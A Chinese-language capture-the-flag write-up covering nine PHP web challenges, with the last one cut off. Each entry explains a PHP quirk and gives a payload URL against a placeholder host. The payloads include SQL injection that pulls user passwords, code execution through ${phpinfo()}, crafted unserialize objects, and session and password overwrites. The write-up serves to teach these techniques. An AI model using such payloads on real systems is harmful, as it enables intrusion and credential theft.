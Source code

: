 ## Writeup

>PHP is the best language in the world! - Mark Twain

### challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用`\`将原SQL语句中的第二个单引号转义，成功逃逸引号。

payload:`http://foobar/challenge1.php?username=\&password=%20or%201=1%20limit%201%23`

### challenge2:
PHP中花括号的用法：字符串`${foobar}`中的foobar会被当作变量来处理，详情参见: http://php.net/manual/en/language.variables.variable.php

payload:`http://foobar/challenge2.php?str=${${phpinfo()}}`

### challenge3:
利用PHP和MySQL中浮点数精度不同的特性来做，在PHP中`1.0000000000001 != 1`而在MySQL中`1.0000000000001 == 1`

payload: `http://foobar/challenge3.phpid=1.0000000000001`

### challenge4:
foreach那一段代码避免了变量覆盖的发生，却也可能导致释放原有变量，通过通过传参$_CONFIG=anything来释放掉$_CONFIG变量，从而绕过过滤，剩下的就是SQL注入了。

payload: `http://foobar/challenge4.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa`

### challenge5:
PHP弱类型导致的BUG，当`$var`是一个字符串/数组的时候，访问`$var["any string"]`跟访问`$var[intval("any string")]`效果是一样的，所以就有如下思路:
1. 访问`http://foobar/challenge5.php?userInfo=a:2:{s:2:"id";s:1:"8";s:4:"pass";s:12:"MAYBECHANGED";}&newPass=8`将账号jimbo18714的密码修改为8
2. 访问`http://foobar/challenge5.php?userInfo=s:1:"8";&newPass=1`将ID为1的账号密码修改为1

开始对2很迷,不知道为啥修改了id=1的用户的密码,而不是修改了id=8的,最后@yichin大牛指点之后才明白:

```php
if($oldPass == $userInfo['pass']){
    $userInfo['pass'] = $newPass; //这里修改了$userInfo,改成了 1  
    $query = 'UPDATE users SET pass = \''.mres($newPass).'\' WHERE id = \''.mres($userInfo['id']).'\';';
    mysql_query($query);
    echo 'Password Changed.';
}
``` 

### challenge6:
PHP中引用的用法，将`$o->enter`设置为`$o->secret`的引用，这样更改`$o->secret`时`$o->enter`也会随之更改。p.s.乌云知识库上面那个思路完全是在扯淡。

payload:`http://foobar/challenge6.php?pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}`

### challenge7:
`$_REQUEST`变量中如果碰到`$_GET`和`$_POST`重名的字段，`$_POST`的该字段会覆盖掉`$_GET`的该字段，可以借此特性绕过对`$_REQUEST`的数组判断，进而覆盖`$_SESSION`变量

payload: `http://foobar/challenge7.php?_SESSION[logged]=1 (POST: _SESSION=1)`

### challenge8:
PHP反序列化的一个小特性，反序列化时会忽略掉用来表示长度的数字前面的`+`，大概是把`+`当作正号来处理了吧。详情参考:http://www.2cto.com/kf/201309/246310.html

payload:`http://foobar/challenge8.php?data=O:%2B8:"just4fun":1:{s:8:"filename";s:9:"sbztz.php";}`

### challenge9:
很明显的变量覆盖，覆盖掉$query_parts，但是有WAF不能获取数据，需要利用PHP parse_url()函数的BUG来解题([https://bugs.php.net/bug.php?id=55511](https://bugs.php.net/bug.php?id=55511))，通过`///x.php?key=value`的方式可以使其返回 False，从而达到绕过WAF的目的，